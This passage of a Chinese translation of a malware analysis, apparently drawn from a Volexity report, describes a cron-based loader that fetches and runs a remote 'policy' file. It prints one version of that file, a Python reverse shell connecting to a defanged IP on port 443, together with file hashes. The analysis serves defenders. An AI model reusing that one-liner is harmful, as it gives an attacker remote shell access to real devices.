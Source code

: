 ```
```  
  
执行时，它会检查是否存在名为update.如果此 cron 文件不存在，它将创建该文件并使用它来建立 cron 作业。它还policy每 60 秒下载一个名为 的远程托管文件并通过 bash 执行它。然后，攻击者随着时间的推移手动更新远程文件的内容，以从设备检索数据并创建反向 shell。  
  
有趣的是，攻击者似乎手动管理此命令和控制（C2）服务器的访问控制列表，因为除了与其通信的设备之外，无法从任何位置在同一端口上访问它。  
  
**通过策略文件执行的恶意代码**  
  
policyVolexity 观察到该文件的六个不同版本。它们各自代表威胁行为者在受感染设备上采取的一组不同操作。下面的编号版本是威胁行为者使用它们的顺序。  
  
**版本1**  
  
该文件包含一个用 Python 编写的单行反向 shell。  
<table><tbody style="appearance: none;outline: 0px;"><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Name(s)</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">policy</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Size</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">287B (287 Bytes)</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">File Type</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">text/x-shellscript</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">MD5</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">a43e3cf908244f85b237fdbacd8d82d5</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA1</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">e1e427c9b46064e2b483f90b13490e6ef522cc06</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA256</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">755f5b8bd67d226f24329dc960f59e11cb5735b930b4ed30b2df77572efb32e8</span></p></td></tr><tr style="appearance: none;outline: 0px;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">VirusTotal First Submitted</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;outline: 0px;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">N/A</span></p></td></tr></tbody></table>  
```
#!/bin/bash
r=`ps -ef | grep "import sys,socket,os" | grep -v grep`
if [[ -z "$r" ]]; then
    python -c "import sys,socket,os,pty;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(('172.233.228[.]93',443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('/bin/bash')"
fi
```  
  